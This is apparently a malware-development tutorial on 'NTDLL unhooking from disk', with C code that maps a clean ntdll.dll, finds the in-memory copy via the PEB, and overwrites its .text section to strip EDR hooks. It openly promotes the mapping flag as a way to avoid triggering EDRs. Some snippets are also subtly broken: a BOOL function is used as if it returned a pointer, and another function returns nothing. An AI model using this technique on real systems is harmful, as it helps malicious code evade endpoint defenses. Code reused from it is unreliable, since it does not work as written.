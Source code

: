 # NTDLL Unhooking - From Disk

## Introduction

REMINDER: When a DLL is read from disk the offset will be 0x400 (1024).&#x20;

<mark style="color:yellow;">**Tl;DR**</mark> Mapping an image into memory rather than reading from disk is more reliable and preferred method.



## Reading NTDLL

The first step is to read NTDLL from disk (C:\Windows\System32\ntdll.dll). There are two methods we can use to do this.&#x20;

* ReadFile (Reads file from disk - 1024 offset)
* CreateFileMapping & MapViewOfFile - (4096 offset MUST include`SEC_IMAGE` or `SEC_IMAGE_NO_EXECUTE` flags in `CreateFileMappingA)` or offset remains 1024.

I'm not going to include a ReadFile example.&#x20;

## Mapping NTDLL

Something worth noting: SEC\_IMAGE\_NO\_EXECUTE does not trigger [PsSetLoadImageNotifyRoutine](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-pssetloadimagenotifyroutine) callback. Using this will not trigger EDRs.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### CreateFileMappingW & MapViewOfFile

```c
BOOL MapNtdllFromDisk() {
    HANDLE hFile = NULL;
    HANDLE hMappingFile = NULL;

    hFile = CreateFileW(ntdllFullPath, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        wprintf(L"CreateFileW Failed %d\n", GetLastError());
        return FALSE;
    }
    DWORD dwFileSize = GetFileSize(hFile, NULL);
    if (dwFileSize == INVALID_FILE_SIZE) {
        wprintf(L"GetFileSize Failed %d\n", GetLastError());
        return FALSE;
    }
    // Use SEC_IMAGE_NO_EXECUTE (needed for offset & not to trigger callback)
    hMappingFile = CreateFileMappingW(hFile, NULL, PAGE_READONLY | SEC_IMAGE_NO_EXECUTE, 0, 0, (LPCWSTR)NULL);
    if (!hMappingFile) {
        wprintf(L"CreateFileMappingW Failed: %d\n", GetLastError());
        return FALSE;
    }

    LPVOID lpBuffer = MapViewOfFile(hMappingFile, FILE_MAP_READ | FILE_MAP_COPY, 0, 0, 0);
    if (lpBuffer == NULL) {
        wprintf(L"MapViewOfFile Failed: %d\n", GetLastError());
        return FALSE;
    }

    wprintf(L"lpBuffer: %p\n", lpBuffer);
}
```

####

### Reading vs Mapping NTDLL

Sometimes when the `ntdll.dll` file is read from disk rather than mapped to memory, the offset of its text section might be 4096 instead of the expected 1024.&#x20;

Mapping the `ntdll.dll` file to memory is <mark style="color:yellow;">more reliable since the text section offset will always equal the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`IMAGE_SECTION_HEADER.VirtualAddress`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">offset of the DLL file</mark>.



## Unhooking NTDLL



### 1.) Get NTDLL Base Address

There are multiple ways to get a local NTDLL base address. Here is the best way:

* InMemoryOrder.Flink->Flink is a pointer to the second entry in the linked list. This is `ntdll.dll`, the first entry is the running process (unhooking\_ntdll.exe).
* InMemoryOrder.Flink->Flink actually points to the <mark style="color:yellow;">END</mark> of the entry rather than the beginning. The size of the LIST\_ENTRY structure is 0x10, therefore we subtract 0x10 to move the pointer to the beginning.

```c
PVOID FetchLocalNtdllAddress() {
    PPEB pPeb = (PPEB)__readgsqword(0x60);
    PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
    return pLdr->DllBase;
}
```

Alternatively, you can use GetModuleHandle() but is a worse approach than above.

### 2.) Fetching The Local NTDLL.DLL Text Section

Getting NTDLL.DLL Text section is easy as getting `BaseOfCode` & `SizeOfCode` from `PIMAGE_OPTIONAL_HEADER`

```c
BOOL FetchLocalTextSectionNtdll(PVOID pBaseAddress) {
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pBaseAddress;
    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)(pBaseAddress + pDosHeader->e_lfanew);
    PIMAGE_OPTIONAL_HEADER pOptionalHeader = (PIMAGE_OPTIONAL_HEADER)&pNtHeaders->OptionalHeader;

    DWORD dwSizeOfText = pOptionalHeader->SizeOfCode;
    PVOID pAddressOfText = pBaseAddress + pOptionalHeader->BaseOfCode;

}

```

Alternatively, you can iterate pNtHeaders->FileHeader.NumberOfSections and search .text.&#x20;



### 3.) Fetching the Unhooked NTDLL.DLL Text Section

We can use our mapping function we created earlier to get the base address of the unhooked ntdll.dll .text section.

We then simply add the base address with the offset (4096 for mapping, 1024 for ReadFile).

```c
ULONG_PTR pUnhookedTxtNtdll = (ULONG_PTR)(MapNtdllFromDisk()) + 4096; // or IMAGE_SECTION_HEADER.VirtualAddress of ntdll.dll
```



### 4.) .Text Section Replacement

We now have everything we need. We can now swap the text section of the unhooked ntdll with the hooked using **memcpy**.

Before we swap we need to change permissions via `VirtualProtect` WinAPI by setting the `PAGE_EXECUTE_WRITECOPY` or `PAGE_EXECUTE_READWRITE` flags.&#x20;

After we've copied the text section we will change back to original permissions.

```c
BOOL SwapNtdllTextSections(IN PVOID pLocalNtdll, IN PVOID pUnhookedNtdll, IN DWORD dwSizeOfText) {
    wprintf(L"Local NTDLL: %p\nUnhooked NTDLL: %p\nSize of Text: %d\n", pLocalNtdll, pUnhookedNtdll, dwSizeOfText);
    // Update Local NTDLL Memory Permissions to RWX Access (Currently only RX)
    DWORD dwOldPermissions = 0;
    if (!VirtualProtect(pLocalNtdll, dwSizeOfText, PAGE_EXECUTE_WRITECOPY, &dwOldPermissions)) {
        wprintf(L"VirtualProtect Failed %d", GetLastError());
        return FALSE;
    }
    getchar();
    // Copy Memory from Unhooked to Local
    memcpy(pLocalNtdll, pUnhookedNtdll, dwSizeOfText);

    if (!VirtualProtect(pLocalNtdll, dwSizeOfText, dwOldPermissions, NULL)) {
        wprintf(L"VirtualProtect Failed %d", GetLastError());
        return FALSE;
    }
    return TRUE;
}
```
